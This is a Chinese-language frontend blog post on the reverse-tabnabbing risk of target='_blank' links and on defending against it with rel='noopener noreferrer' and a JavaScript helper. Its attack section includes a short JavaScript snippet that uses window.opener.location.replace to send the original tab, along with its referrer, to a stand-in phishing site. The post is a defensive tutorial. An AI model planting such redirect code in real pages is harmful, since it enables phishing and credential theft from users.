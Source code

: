 ```yaml
---
title: 危险的target="_blank"与"opener"
urlname: target-blank-should-be-used-with-caution
date: 2018-02-15 16:16:35
category: 前端
tags: javascript
---
```

原文链接：[https://juejin.im/post/5a9f8425f265da239a5f57f8](https://juejin.im/post/5a9f8425f265da239a5f57f8)
> 在网页中使用链接时，如果想要让浏览器自动在新的标签页打开指定的地址，通常的做法就是在 a 标签上添加 target等于"_blank" 属性。
然而，就是这个属性，为钓鱼攻击者带来了可乘之机。

## 起源
#### `parent` 与 `opener`
在说 `opener` 之前，可以先聊聊 `<iframe>` 中的 `parent`。

我们知道，在 `<iframe>` 中提供了一个用于父子页面交互的对象，叫做 `window.parent`，我们可以通过 `window.parent` 对象来从框架中的页面访问父级页面的 `window`。

`opener` 与 `parent` 一样，只不过是用于 `<a target="_blank">` 在新标签页打开的页面的。通过 `<a target="_blank">` 打开的页面，可以直接使用 `window.opener` 来访问来源页面的 `window` 对象。
<!-- more -->
#### 同域与跨域
浏览器提供了完整的跨域保护，在域名相同时，`parent` 对象和 `opener` 对象实际上就直接是上一级的 `window` 对象；而当域名不同时，`parent` 和 `opener` 则是经过包装的一个 `global` 对象。这个 `global` 对象仅提供非常有限的属性访问，并且在这仅有的几个属性中，大部分也都是不允许访问的（访问会直接抛出 `DOMException`）。

在 `<iframe>` 中，提供了一个 `sandbox` 属性用于控制框架中的页面的权限，因此即使是同域，也可以控制 `<iframe>` 的安全性。

## 利用
如果，你的网站上有一个链接，使用了 `target="_blank"`，那么一旦用户点击这个链接并进入一个新的标签，新标签中的页面如果存在恶意代码，就可以将你的网站直接导航到一个虚假网站。此时，如果用户回到你的标签页，看到的就是被替换过的页面了。
#### 详细步骤
1. 在你的网站 https://example.com 上存在一个链接：
```html
<a href="https://an.evil.site" target="_blank">进入一个“邪恶”的网站</a>
```
2. 用户点击了这个链接，在新的标签页打开了这个网站。这个网站可以通过 `HTTP Header` 中的 `Referer` 属性来判断用户的来源。
   
   并且，这个网站上包含着类似于这样的 `JavaScript` 代码：
   ```javascript
    const url = encodeURIComponent('{{header.referer}}');
    window.opener.location.replace('https://a.fake.site/?' + url);
   ```
3. 此时，用户在继续浏览这个新的标签页，而原来的网站所在的标签页此时已经被导航到了 `https://a.fake.site/?https%3A%2F%2Fexample.com%2F`。
4. 恶意网站 `https://a.fake.site` 根据 Query String 来伪造一个足以欺骗用户的页面，并展示出来（期间还可以做一次跳转，使得浏览器的地址栏更具有迷惑性）。
5. 用户关闭 `https://an.evil.site` 的标签页，回到原来的网站………………已经回不去了。

> 上面的攻击步骤是在跨域的情况下的，在跨域情况下，`opener` 对象和 `parent` 一样，是受到限制的，仅提供非常有限的属性访问，并且在这仅有的几个属性中，大部分也都是不允许访问的（访问会直接抛出 `DOMException`）。
  但是与 `parent` 不同的是，**在跨域的情况下，`opener` 仍然可以调用 `location.replace` 方法而 `parent` 则不可以**。
  如果是在同域的情况下（比如一个网站上的某一个页面被植入了恶意代码），则情况要比上面严重得多。

## 防御
`<iframe>` 中有 `sandbox` 属性，而链接，则可以使用下面的办法：
#### 1. Referrer Policy 和 noreferrer
上面的攻击步骤中，用到了 HTTP Header 中的 `Referer` 属性，实际上可以在 HTTP 的响应头中增加 `Referrer Policy` 头来保证来源隐私安全。

`Referrer Policy` 需要修改后端代码来实现，而在前端，也可以使用 `<a>` 标签的 `rel` 属性来指定 `rel="noreferrer"` 来保证来源隐私安全。
```html
<a href="https://an.evil.site" target="_blank" rel="noreferrer">进入一个“邪恶”的网站</a>
```
> 但是要注意的是：即使限制了 `referer` 的传递，仍然不能阻止原标签被恶意跳转。
#### 2. noopener
为了安全，现代浏览器都支持在 `<a>` 标签的 `rel` 属性中指定 `rel="noopener"`，这样，在打开的新标签页中，将无法再使用 `opener` 对象了，它为设置为了 `null`。
```html
<a href="https://an.evil.site" target="_blank" rel="noopener">进入一个“邪恶”的网站</a>
```
#### 3. JavaScript
`noopener` 属性看似是解决了所有问题，但是...浏览器的兼容性问题...
![](/images/noopener-version.png)
可以看到，现在绝大多数浏览器都已经兼容了 `rel="noopener"` 属性了。但是，为了保护稍旧的“近代”浏览器或是很旧的“古代”浏览器甚至是“远古”浏览器，只有 `noopener` 属性还是远远不够的。

这时，就只能请出下面这段原生 JavaScript 来帮忙了。
```javascript 1.8
"use strict";
function openUrl(url) {
  var newTab = window.open();
  newTab.opener = null;
  newTab.location = url;
}
```
## 推荐
首先，在网站中的链接上，如果使用了 `target="_blank"`，就要带上 `rel="noopener"`，并且建议带上 `rel="noreferrer"`。类似于这样：
```html
<a href="https://an.evil.site" target="_blank" rel="noopener noreferrer">进入一个“邪恶”的网站</a>
```
当然，在跳转到第三方网站的时候，为了 SEO 权重，还建议带上 `rel="nofollow"`，所以最终类似于这样：
```html
<a href="https://an.evil.site" target="_blank" rel="noopener noreferrer nofollow">进入一个“邪恶”的网站</a>

```
## 性能
最后，再来说说性能问题。

如果网站使用了 `<a target="_blank">`，那么新打开的标签页的性能将会影响到当前页面。此时如果新打开的页面中执行了一个非常庞大的 JavaScript 脚本，那么原始标签页也会受到影响，会出现卡顿的现象（当然不至于卡死）。

而如果在链接中加入了 `noopener`，则此时两个标签页将会互不干扰，使得原页面的性能不会受到新页面的影响。

